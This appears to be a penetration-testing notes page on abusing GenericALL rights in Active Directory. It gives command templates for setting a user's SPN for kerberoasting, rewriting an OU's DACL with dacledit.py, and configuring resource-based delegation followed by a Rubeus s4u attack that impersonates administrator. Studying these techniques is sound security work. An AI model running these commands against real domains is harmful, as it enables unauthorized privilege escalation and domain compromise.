# GenericALL

## Abuse

### On a User

If we have sufficient right, a target user's SPN can be set to anything in the domain (unique in the domain) and then kerberoasted

To set the SPN to the user using powerview:

{% code overflow="wrap" %}
```powershell
Set-DomainObject -Identity <$Target user> -Set @{serviceprincipalname='<$Domain/myspn>'}
```
{% endcode %}

now you can [kerberoast ](../kerberoasting.md)it.

### On a OU

and use it to modify the dacl on computers OU (All sub object will inherite the dacl)

{% code overflow="wrap" %}
```
./dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal '<$Controlled User>' -target-dn '<$Object CN>' -hashes '<$Full NTLM>' -dc-ip <$IP Dc> <$Domain/Controlled User>
```
{% endcode %}

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/Pasted%20image%2020240315151638.png" alt=""><figcaption></figcaption></figure>

Now you will have GenericALL on all the machine in the OU.

### Over Computer Object

Set RBCD to a machine that yoy own:

{% code overflow="wrap" %}
```
Set-ADComputer -Identity <$Target> -PrincipalsAllowedToDelegateToAccount <Owned$> -Verbose
```
{% endcode %}

Now use rubeus to use a s4u attack

{% code overflow="wrap" %}
```powershell
Rubeus.exe s4u /user:<Own>$  /aes256:<aes256>/msdsspn:<$service target> /impersonateuser:administrator /ptt
```
{% endcode %}

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/image%20(7).png" alt=""><figcaption></figcaption></figure>

\

